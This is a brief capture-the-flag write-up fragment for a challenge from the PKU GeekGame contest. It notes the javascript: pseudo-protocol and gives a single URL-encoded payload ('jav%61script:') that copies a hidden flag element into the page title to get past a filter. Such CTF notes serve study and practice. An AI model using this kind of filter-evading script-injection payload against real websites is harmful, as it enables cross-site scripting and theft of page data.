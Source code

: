 title:: CTF/WP/PKUGeekGame

- `javascript:`伪协议
- ```
  jav%61script:(() => document.getElementsByTagName('title')[0].innerHTML = document.getElementsByClassName('flag')[0].innerHTML)()
  ```
-